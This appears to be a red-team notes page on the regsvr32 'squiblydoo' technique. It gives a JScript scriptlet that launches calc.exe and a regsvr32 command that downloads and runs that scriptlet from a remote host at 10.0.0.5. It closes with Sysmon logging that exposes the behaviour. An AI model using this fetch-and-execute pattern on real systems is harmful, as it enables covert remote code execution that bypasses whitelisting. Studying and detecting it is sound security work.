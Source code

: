 # regsvr32 aka squiblydoo

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline%20%281%29.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

